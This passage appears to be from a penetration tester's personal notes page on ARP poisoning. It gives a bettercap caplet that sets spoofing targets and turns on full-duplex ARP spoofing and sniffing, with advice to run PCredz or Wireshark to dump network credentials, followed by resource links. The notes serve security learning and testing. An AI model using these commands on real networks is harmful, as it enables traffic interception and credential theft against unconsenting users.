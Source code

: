 {% tab title="Dumping network secrets" %}
Start [PCredz](https://github.com/lgandx/PCredz) or Wireshark then start the poisoning attack

{% code title="spoofing.cap" %}
```bash
# quick recon of the network
net.probe on

# set the ARP poisoning
set arp.spoof.targets $client_ip
set arp.spoof.internal true
set arp.spoof.fullduplex true

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff.mdns

# start the modules
arp.spoof on
net.sniff on
```
{% endcode %}
{% endtab %}
{% endtabs %}

## 🛠️ Below this is info I need to RTFM on...

What is iptables -j MASQUERADE and why do I see it all the time in articles and blogs

## Resources

{% embed url="http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html" %}

{% embed url="https://luemmelsec.github.io/Relaying-101/#arp-spoofing" %}

{% embed url="https://www.bettercap.org/modules/ethernet/spoofers/arp.spoof/" %}

{% embed url="https://ivanitlearning.wordpress.com/2019/04/07/arp-dns-poisoning-with-bettercap-and-impacket-ntlmrelayx/" %}
